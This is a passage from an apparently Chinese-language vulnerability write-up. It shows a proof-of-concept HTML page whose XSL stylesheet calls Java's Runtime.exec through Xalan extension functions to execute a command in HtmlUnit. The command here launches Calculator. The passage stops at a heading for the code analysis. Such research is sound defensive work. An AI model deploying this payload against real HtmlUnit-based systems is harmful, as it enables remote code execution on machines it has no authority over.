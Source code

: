 htmlunit.html

```bash
<script>
// 创建一个 XML 字符串并加载为 XML 文档
var xmlString = '<?xml version="1.0" encoding="UTF-8"?><s></s>';
var parser = new DOMParser();
var xmlDoc = parser.parseFromString(xmlString, "text/xml");

// 创建 XSL 字符串并加载为 XML 文档
var xslString = `<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
   <xsl:template match="/">
     <xsl:variable name="rtobject" select="rt:getRuntime()"/>
     <xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>
     <xsl:variable name="processString" select="ob:toString($process)"/>
     <xsl:value-of select="$processString"/>
   </xsl:template>
 </xsl:stylesheet>`;
var xslDoc = parser.parseFromString(xslString, "text/xml");

// 使用 XSLTProcessor 进行转换
var processor = new XSLTProcessor();
processor.importStylesheet(xslDoc);
var resultDocument = processor.transformToDocument(xmlDoc);

</script>
```

[![](assets/1702521100-ce2cb7bc81420e898c8b38f18e752a25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231203235554-70ed905e-91f4-1.png)

#### XSL 代码分析
